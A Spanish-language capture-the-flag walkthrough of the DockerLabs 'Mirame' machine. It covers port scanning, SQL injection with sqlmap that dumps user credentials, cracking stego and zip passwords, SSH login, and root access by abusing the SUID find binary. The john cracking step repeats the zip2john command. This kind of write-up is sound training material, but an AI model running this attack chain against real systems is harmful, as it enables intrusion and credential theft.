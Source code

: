 ```yaml
---
title: Mirame - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3c6a11d0-98ea-449d-b124-dc7951cb6a84)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/79604c88-03f7-4c33-acf2-5076e32869f5)

# Exploración Web

Al acceder a la página web, observamos una pagina de login.
![image](https://github.com/user-attachments/assets/01915018-0278-4a6a-8c54-8f9f615b7627)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/aabf1211-fc56-491c-bbc2-5dedb231eaa7)

Encontramos varias rutas las cuales , no encontramls nada interesante por ahora.

## Inyeccion Sql 

Lo que haremos sera probar en el login del principio con `sqlmap`.


Recogeremos la peticion y la guardaremos en un archivo `request.req` y poniendo `*` donde queremos que modifique los campos.

![image](https://github.com/user-attachments/assets/6992ffe9-6a37-463e-ad12-146eb37d40ed)

Vamos a porbar si es inyectable primero

```bash
sqlmap -r request.req -p searchitem --batch
```
![image](https://github.com/user-attachments/assets/a162743f-2200-44fe-a0f1-9c7fd467dc44)

Parece que si es inyectable ahora vamos a ver que base de datos contiene.

```bash
sqlmap -r request.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/0af6ca88-b27f-4587-957f-587739457018)

Ahora vamos a ver que tablas tiene esa base de datos.
```bash
sqlmap -r request.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/39913051-dd61-4764-a4b5-87f4e8323bb0)

Que contiene la tabla 
```bash
sqlmap -r request.req  -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/84f30792-6479-41c4-ac21-aee62d06b678)

Usuarios y contraseñas
```bash
sqlmap -r request.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/9d96e32f-a072-44f1-a37f-dae4560dd959)

# Intrusion

Ya teniendo un listado vemos que hay uno llamado `directoriotravieso` y si es es un directorio , por lo que porbamos.

![image](https://github.com/user-attachments/assets/7e4c871d-7e97-4ee3-be7c-43eb56de402b)

Por lo que parecia , era buena mi suposicion , ahora lo que haremos sera descargar esa imagen y ver si contiene un mensaje oculto. 

```bash
steghide --extract -sf miramebien.jpg 
```

Nos pide una contraseña por lo que no podemos ver que contiene.

![image](https://github.com/user-attachments/assets/6c3dfe1d-e35a-4a9e-ab74-e60ff24a4f20)


### Fuerza bruta

Lo que haremos sera fuerza bruta para ver si la contraseña esta en `rockyou`.

```bash
stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/c504e959-4d2b-400d-9789-089e8997c886)

La contraseña era `chocolate`.

Lo volvemos a  porobar a ver que contiene esa imagen de antes.

![image](https://github.com/user-attachments/assets/1025c5bb-f426-477e-b603-a69be1ccbfde)

Y nos ha descargado un ocultito.zip , vamos a descomprimirlo, parece que este también tiene un `password`.

![image](https://github.com/user-attachments/assets/5f28b73b-a61a-43f2-aaa9-bbcc6a49f6d0)

Para romper este archivo usaremos `zip2john` para extraer el `hash`, 
```bash
zip2john ocultito.zip > contraseña.hash
```
![image](https://github.com/user-attachments/assets/fe45cd36-a9e1-4c2d-a626-bb33c3bdd0f7)

Ahora usaremos `john` para obtener el `password` y siguiendo estos pasos 
```bash
zip2john ocultito.zip > contraseña.hash
```
![image](https://github.com/user-attachments/assets/025f431d-3eb3-41a8-8acc-cc0a294178ce)

Observamos que el password es `stupid1`.

Ahora vamos a descomprimir el .zip.

```bash
unzip ocultito.zip
```
![image](https://github.com/user-attachments/assets/280bf9e4-1903-47ba-befc-1d4ec52dacb3)

Vemos que ha extraido un archivo llamado `secret.txt` . vamos a ver que contiene.

![image](https://github.com/user-attachments/assets/02a9078b-751f-4c9c-b666-136573aa343d)

COntiene `carlos:carlitos` lo cual parece ser un usuario y una contrseña para acceder a traevs de ssh.

```bash
ssh carlos@172.17.0.2 
```

![image](https://github.com/user-attachments/assets/7cd77b45-66f8-4339-b3aa-c754f6db7dd9)

# Escalada de privilegios.

Vamos a ver si tenemos permisos SUID en algun binario, para ello usamos `sudo -l` pero como no tenemos permisos de sudo , probamos buscando con el comando `find`.

![image](https://github.com/user-attachments/assets/b51fd811-84dd-4d36-af73-1371bcacb114)

```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/34d71a5e-325e-4d95-9218-5958ee2de755)

Vemos que tenemos permisos en `find` por lo que probaremos lo siguiente para que nos genere una shell como root.

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://github.com/user-attachments/assets/33d8e5a5-9b14-4d84-a9a4-79dea199147e)

Ya somos root

